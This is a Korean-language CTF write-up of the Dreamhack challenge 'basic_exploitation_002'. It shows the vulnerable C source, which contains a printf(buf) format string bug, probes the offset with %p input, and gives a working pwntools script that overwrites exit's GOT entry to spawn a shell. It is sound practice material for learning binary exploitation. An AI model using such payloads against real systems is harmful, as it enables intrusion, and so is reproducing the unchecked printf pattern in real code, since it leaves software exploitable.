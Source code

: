 # [Dreamhack] basic_exploitation_002 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

일단 main함수의 read부분에서 0x80만큼 받게 지정해둬서 오버플로우는 발생시키지 못 할꺼같다.

하지만 그 밑에 printf부분에서 FSB취약점이 발생하는걸 볼 수 있다. exit()의 got주소를 get_shell의 주소로 바꿔주면 될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- 입력한 값을 받는 오프셋
- exit함수의 got주소
- get_shell의 주소

디버깅은 peda를 사용했습니다.

$ exit의 got주소와 get_shell의 주소는 pwntools를 사용해서 구하겠다. $

그럼 이제 알아야하는건 오프셋만 남았다.

실행시키고 aaaa.%p.%p.%p.%p.%p.%p.%p 를 입력해서 확인해보자

```bash
❯ ./basic_exploitation_002 
aaaa.%p.%p.%p.%p.%p.%p.%p
aaaa.0x61616161.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0xf7f80a70
```

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

p = process("./basic_exploitation_002")

e = ELF('./basic_exploitation_002')

shell_addr=e.symbols['get_shell']
exit_got=e.got['exit']

payload=fmtstr_payload(1,{exit_got:shell_addr})

p.sendline(payload)
p.interactive()
```

이번 코드를 짤때는 pwntools의 fmtstr_payload 함수를 사용해보았다. 이 함수는 FSB의 페이로드를 짜주  는 함수이다. 구조를 간단하게 설명해보면 

fmtstr_payload(”오프셋”,{”덮힐주소”: “덮을주소”})

이런식으로 사용하면 된다.

한번 실행시켜보자.

![Screenshot from 2022-10-18 15-08-00.png](/4%EC%A3%BC%EC%B0%A8/basic_ex002/%5BDreamhack%5D%20basic_exploitation_002%20%E1%84%91%E1%85%AE%E1%86%AF%EC%9D%B4/Screenshot_from_2022-10-18_15-08-00.png)

쉘이 따진 모습!
